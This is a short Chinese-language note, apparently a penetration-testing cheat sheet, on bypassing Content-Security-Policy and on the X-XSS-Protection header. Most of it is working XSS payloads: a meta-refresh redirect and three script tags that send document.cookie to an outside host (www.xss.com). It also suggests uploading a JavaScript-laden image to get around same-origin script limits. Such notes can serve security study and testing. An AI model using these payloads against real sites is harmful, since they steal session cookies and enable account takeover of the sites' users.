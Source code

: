 ## CSP策略的绕过


```php
header("Content-Security-Policy: default-src 'self'; script-src 'self' ");
```
### 绕过default-src 'none'

在default-src 'none'的情况下 可以使用meta标签实现跳转:

```html
<meta http-equiv="refresh" content="1;url=http://www.xss.com/x.php?c=[cookie]" >

```

### 绕过cript-src 'unsafe-inline'

在允许unsafe-inline的情况下 可以用window.location 或者window.open之类的方法进行跳转绕过

```html
<script>window.location="https://www.xss.com/x.php?c="+document.cookie;</script>
<script>window.open('//www.xss.com/?'+escape(document.cookie))</script>
<script>window.location.href='https://www.xss.com/?cookie='+document.cookie</script>
```

## X-XSS-Protection

X-XSS-Protection字段用于开启浏览器XSS防护机制，ie是XSS filter，Chrome是XSS auditor,响应头无此字段默认为1,且此字段存在一定安全隐患

常规设置为 X-XSS-Protectin:1,mode-block

限制引用当前域脚本,可以找到上传图片的地方,上传一个内容为js代码的图片
